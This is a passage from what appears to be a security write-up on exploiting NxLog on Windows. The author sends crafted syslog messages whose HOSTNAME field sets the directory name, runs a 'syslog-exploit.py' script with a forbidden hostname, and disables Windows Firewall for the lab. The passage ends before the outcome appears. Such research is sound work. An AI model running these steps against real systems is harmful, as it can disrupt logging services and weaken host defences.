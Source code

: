 Check :
````powershell
netstat -an | Select-String "514" 
````

Return :
````
  UDP    0.0.0.0:514            *:* 
````

Ok great !

Disable Windows Firewall, because I don't want to create a Firewall rule... :
````powershell
Set-NetFirewallProfile -Profile Domain, Public, Private -Enabled False
````

---

### 2.1.2 Test :
With my python script I can just send a Syslog message for test if Nxlog service create directory. 

The name of directory is based on the **HOSTNAME** field of the Syslog payload. (See configuration file)

So :
````bash
./syslog-exploit.py -ip 192.168.1.54 -os 3
````

Directory and log are created :
````powershell
ls "C:\Program Files (x86)\nxlog\data\"
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       29/11/2020     19:31                123soleil
-a----       29/11/2020     19:52            257 nxlog.log

ls "C:\Program Files (x86)\nxlog\data\123soleil"
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       29/11/2020     19:31             75 123soleil.log 

cat "C:\Program Files (x86)\nxlog\data\123soleil\123soleil.log"
<30>Sep 14 14:09:09 123soleil dhcp service[warning] 110 Silence is golden
````


---

### 2.1.3 Exploit :
Now if I specify a hostname with a forbidden name :
````bash
./syslog-exploit.py -ip 192.168.1.54 -os 2
````

In Nxlog internal log :
````bash
cat 'C:\Program Files (x86)\nxlog\data\nxlog.log' 
````
